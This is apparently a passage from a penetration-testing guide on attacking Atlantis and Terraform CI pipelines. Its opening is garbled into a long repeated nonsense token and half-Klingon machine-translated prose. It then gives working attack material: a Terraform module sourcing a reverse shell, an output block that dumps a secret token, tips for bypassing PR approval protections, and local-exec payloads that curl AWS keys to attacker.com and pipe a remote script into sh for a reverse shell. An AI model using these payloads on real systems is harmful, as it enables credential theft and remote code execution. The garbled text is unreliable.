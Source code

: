 vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
vItlhutlh. [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules) Daq yIqawlaHbe'chugh, **ref** chenmoH **terraform rev shell code in a branch** vItlhutlh repo, vaj: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b` 

* **atlantis plan** chelmeH **secrets used by terraform** **dump** laH running `atlantis plan` (`terraform plan`) Daq yIlo'laHbe'chugh, terraform file vItlhutlh:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
### Atlantis apply RCE - Config modification in new PR

If you have write access over a repository you will be able to create a new branch on it and generate a PR. If you can **execute `atlantis apply` you will be able to RCE inside the Atlantis server**.

However, you will usually need to bypass some protections:

* **Mergeable**: If this protection is set in Atlantis, you can only run **`atlantis apply` if the PR is mergeable** (which means that the branch protection need to be bypassed).
* Check potential [**branch protections bypasses**](broken-reference/)
* **Approved**: If this protection is set in Atlantis, some **other user must approve the PR** before you can run `atlantis apply`
* By default you can abuse the [**Gitbot token to bypass this protection**](broken-reference/)

Running **`terraform apply` on a malicious Terraform file with** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
You just need to make sure some payload like the following ones ends in the `main.tf` file:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```